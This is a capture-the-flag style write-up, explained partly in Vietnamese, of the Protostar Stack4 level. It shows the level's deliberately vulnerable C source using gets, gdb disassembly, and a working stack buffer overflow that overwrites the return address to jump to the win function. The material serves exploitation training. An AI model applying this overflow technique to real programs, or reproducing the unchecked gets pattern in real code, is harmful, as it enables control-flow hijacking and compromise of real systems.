 # STACK FOUR

## About

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

  * A variety of introductory papers into buffer overflows may help.
 
  * gdb lets you do “run < input”
 
 * EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solutions

`STACK FOUR` là thử thách sẽ bắt đầu xem xét việc nếu như buffer overflow không chỉ ghi đè giá trị của các biến trên STACK mà còn ghi đè những thứ khác có trên STACK.

Trước đó chúng ta sẽ xem lại cấu trúc Stack memory và code Assembly hàm main của chương trình qua gdb:

```
  |  high memory adddress
  | |====================| 
  | |   name-arguments   |  ^
  | |====================|  | buffer
  S |   return address   |  | fill
  t |====================|  | direction
  a |  base-pointer|'''''|  |
  c |==============|'''''|  |
  k |''''''''''''''''''''|  |
  | |'''''''buffer'''''''|  |
  | |''''''''''''''''''''|  |
  | |====================|  |
  | |                    |  |
  | |....................|
      low memory address
```
Code Assembly:

```Asm
root@protostar:/opt/protostar/bin# gdb -q ./stack4                                                      
Reading symbols from /opt/protostar/bin/stack4...done.                                                  
(gdb) set disassembly-flavor intel                                                                      
(gdb) disass main                                                                                       
Dump of assembler code for function main:                                                               
0x08048408 <main+0>:    push   ebp                                                                      
0x08048409 <main+1>:    mov    ebp,esp                                                                  
0x0804840b <main+3>:    and    esp,0xfffffff0                                                           
0x0804840e <main+6>:    sub    esp,0x50                                                                 
0x08048411 <main+9>:    lea    eax,[esp+0x10]                                                           
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax                                                      
0x08048418 <main+16>:   call   0x804830c <gets@plt>                                                     
0x0804841d <main+21>:   leave                                                                           
0x0804841e <main+22>:   ret                                                                             
End of assembler dump.                                                                                  
(gdb) 
```

Khi một hàm được gọi nó sẽ lưu trên stack địa chỉ trả về của hàm `(return address)` sau đó là đến EBP `(base pointer)` - tương ứng với 3 dòng đầu của code asm (phần prolog), rồi tiếp theo là các hoạt động khác như biến, giá trị tham chiếu đến hay là tiếp tục gọi đến các hàm con khác.

Khi thực thi xong mã trong hàm, cuối mỗi hàm là câu lệnh `ret` nó sẽ nhảy đến giá trị địa chỉ ở đỉnh stack - sau khi thực thi xong mã tại đó là return address và chuyển flow chương trình về địa chỉ đó. Cụ thể hơn là nó gán giá trị của `EIP` (Extended instruction pointer) = return address.

Nghĩa là nếu ta dùng hàm gets nhập một lượng đủ lớn ký tự input ta có thể overwrite Return address và điều khiển flow chương trình thông qua giá trị ghi đè.

Vậy bao nhiêu là đủ lớn ???

Chúng ta sẽ thử đầu vào (ít nhất nó cũng phải vượt qua khả năng chứa của `buffer`) và debug trong gdb như sau:

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4' > txt                                         
root@protostar:/opt/protostar/bin# gdb -q ./stack4                                                      
Reading symbols from /opt/protostar/bin/stack4...done.                                                  
(gdb) set disassembly-flavor intel                                                                      
(gdb) r < txt                                                                                           
Starting program: /opt/protostar/bin/stack4 < txt                                                                                                                                                               
Program received signal SIGSEGV, Segmentation fault.                                                    
0x45454545 in ?? ()        <--- EEEE                                                                                   
(gdb) 
```

Như ta thấy chương trình nhảy về địa chỉ 0x45454545 (EEEE) báo lỗi nghĩa là tôi đã ghi đè lên EIP bằng một giá trị 0x45454545.

Bây giờ ta tiến hành tìm địa chỉ hàm win

```
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb)
```

Bước khai thác cuối cùng

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
root@protostar:/opt/protostar/bin#
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


